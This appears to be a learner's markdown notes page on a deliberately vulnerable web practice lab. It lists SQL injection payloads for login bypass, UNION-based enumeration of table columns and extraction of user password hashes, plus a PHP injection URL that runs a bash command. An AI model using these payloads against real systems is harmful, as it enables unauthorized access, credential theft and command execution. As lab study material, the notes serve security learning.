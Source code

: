 ## SQL injection

### Hero form : 
```
select * from heros where username = ''  AND password = ''
```
Solution : we have to pass the sql to be always true
```
username : 'or '1'='1' # 
 ==> select * from heros where username = ''or '1'='1' # '  AND password = '' ==> true
```
Solution 2
```
username: 'or '1'='1
password: 'or '1'='1
select * from heros where username = ''or '1'='1  AND password = ''or '1'='1' ==> false or true and false or true ==> true and true ==> true
```
### GET/search

#### get all movies

```
select * from movies where name like  '%%'
```
```
Solution
%'or 1=1 # attention a space 
```

#### get password hash of user

```
%'order by 7 # at ==> true ==> 7 columns

%' union select 1,2,3,id,5,6,7 from users # attttt ==> true ==> have table name users
%' union select 1,2,3,group_concat(0x7c,column_name,0x7c),5,6,7 from information_schema.columns where table_name='users' # att ==> get all columns name of the table user 
 --- get result: 
 |id|,|login|,|password|,|email|,|secret|,|activation_code|,|activated|,|reset_code|,|admin|

%' union select 1,2,login,password,5,6,7 from users # att ==> get password hash ! 
```

## PHP injection
Low level security: 

```
phpi.php?message=exec("/bin/bash -c 'whoami'");
```
